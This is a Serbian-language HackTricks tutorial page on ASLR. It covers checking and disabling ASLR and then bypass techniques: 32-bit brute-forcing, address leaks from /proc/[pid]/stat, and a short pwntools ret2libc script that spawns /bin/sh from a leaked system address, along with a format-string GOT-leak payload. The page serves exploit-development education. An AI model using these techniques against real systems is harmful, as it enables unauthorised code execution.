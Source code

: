 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne informacije

**Address Space Layout Randomization (ASLR)** je tehnika bezbednosti koja se koristi u operativnim sistemima za **nasumično određivanje memorijskih adresa** koje koriste sistemski i aplikativni procesi. Na taj način, značajno otežava napadaču da predvidi lokaciju specifičnih procesa i podataka, kao što su stek, heap i biblioteke, čime se ublažavaju određene vrste eksploatacija, posebno prelivanja bafera.

### **Proveravanje ASLR statusa**

Da biste **proverili** ASLR status na Linux sistemu, možete pročitati vrednost iz datoteke `/proc/sys/kernel/randomize_va_space`. Vrednost koja se čuva u ovoj datoteci određuje vrstu ASLR koja se primenjuje:

* **0**: Nema nasumičnosti. Sve je statično.
* **1**: Konzervativna nasumičnost. Deljene biblioteke, stek, mmap(), VDSO stranica su nasumične.
* **2**: Potpuna nasumičnost. Pored elemenata koji su nasumični kroz konzervativnu nasumičnost, memorija koja se upravlja putem `brk()` je nasumična.

Možete proveriti ASLR status sledećom komandom:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Onemogućavanje ASLR-a**

Da biste **onemogućili** ASLR, postavite vrednost `/proc/sys/kernel/randomize_va_space` na **0**. Onemogućavanje ASLR-a se generalno ne preporučuje van scenarija testiranja ili debagovanja. Evo kako možete to da uradite:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Možete takođe onemogućiti ASLR za izvršavanje sa:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Omogućavanje ASLR-a**

Da biste **omogućili** ASLR, možete napisati vrednost **2** u datoteku `/proc/sys/kernel/randomize_va_space`. To obično zahteva root privilegije. Omogućavanje potpune randomizacije može se izvršiti sledećom komandom:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistencija kroz ponovna pokretanja**

Promene napravljene sa `echo` komandama su privremene i biće resetovane prilikom ponovnog pokretanja. Da biste promenu učinili trajnom, potrebno je da uredite datoteku `/etc/sysctl.conf` i dodate ili izmenite sledeću liniju:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
После уређивања `/etc/sysctl.conf`, примените промене са:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX deli adresni prostor procesa na **3 grupe**:

* **Kod i podaci** (inicijalizovani i neinicijalizovani): `.text`, `.data`, i `.bss` —> **16 bita** entropije u `delta_exec` varijabli. Ova varijabla se nasumično inicijalizuje sa svakim procesom i dodaje se početnim adresama.
* **Memorija** alocirana pomoću `mmap()` i **deljene biblioteke** —> **16 bita**, nazvana `delta_mmap`.
* **Stek** —> **24 bita**, nazvan `delta_stack`. Međutim, efektivno koristi **11 bita** (od 10. do 20. bajta uključivo), poravnato na **16 bajtova** —> Ovo rezultira sa **524,288 mogućih stvarnih adresa steka**.

Prethodni podaci su za 32-bitne sisteme i smanjena konačna entropija omogućava zaobilaženje ASLR ponovnim pokušajem izvršenja iznova i iznova dok se eksploatacija ne završi uspešno.

#### Brute-force ideje:

* Ako imate dovoljno veliki overflow da smestite **veliki NOP sled pre shellcode-a**, mogli biste jednostavno da brute-force-ujete adrese u steku dok tok **ne preskoči neki deo NOP sled-a**.
* Druga opcija za ovo, u slučaju da overflow nije toliko veliki i da se eksploatacija može pokrenuti lokalno, je moguće **dodati NOP sled i shellcode u promenljivu okruženja**.
* Ako je eksploatacija lokalna, možete pokušati da brute-force-ujete osnovnu adresu libc (korisno za 32-bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati da **brute-force-ujete adresu funkcije `usleep` iz `libc`**, prosledjujući kao argument 10 (na primer). Ako u nekom trenutku **serveru treba dodatnih 10s da odgovori**, pronašli ste adresu ove funkcije.

{% hint style="success" %}
Na 64-bitnim sistemima entropija je mnogo veća i to nije moguće.
{% endhint %}

### Lokalne informacije (`/proc/[pid]/stat`)

Datoteka **`/proc/[pid]/stat`** procesa je uvek čitljiva za sve i **sadrži zanimljive** informacije kao što su:

* **startcode** & **endcode**: Adrese iznad i ispod sa **TEXT** binarnog fajla
* **startstack**: Adresa početka **stack-a**
* **start\_data** & **end\_data**: Adrese iznad i ispod gde se nalazi **BSS**
* **kstkesp** & **kstkeip**: Trenutne **ESP** i **EIP** adrese
* **arg\_start** & **arg\_end**: Adrese iznad i ispod gde su **cli argumenti**.
* **env\_start** &**env\_end**: Adrese iznad i ispod gde su **env promenljive**.

Dakle, ako je napadač na istom računaru kao i binarni fajl koji se eksploatiše i ovaj binarni fajl ne očekuje prelivanje iz sirovih argumenata, već iz različitog **ulaza koji se može kreirati nakon čitanja ove datoteke**. Moguće je da napadač **dobije neke adrese iz ove datoteke i konstruira ofsete za eksploataciju**.

{% hint style="success" %}
Za više informacija o ovoj datoteci pogledajte [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) pretražujući `/proc/pid/stat`
{% endhint %}

### Imati leak

* **Izazov je dati leak**

Ako dobijete leak (laki CTF izazovi), možete izračunati ofsete iz njega (pretpostavljajući na primer da znate tačnu verziju libc koja se koristi u sistemu koji eksploatišete). Ovaj primer eksploatacije je izvučen iz [**primera ovde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (proverite tu stranicu za više detalja):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Zloupotrebljavajući buffer overflow, bilo bi moguće iskoristiti **ret2plt** da se exfiltrira adresa funkcije iz libc. Proverite:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Baš kao u ret2plt, ako imate arbitrarnu čitanje putem ranjivosti format stringova, moguće je exfiltrirati adresu **libc funkcije** iz GOT-a. Sledeći [**primer je odavde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Možete pronaći više informacija o Format Strings proizvoljnom čitanju na:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Pokušajte da zaobiđete ASLR koristeći adrese unutar steka:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
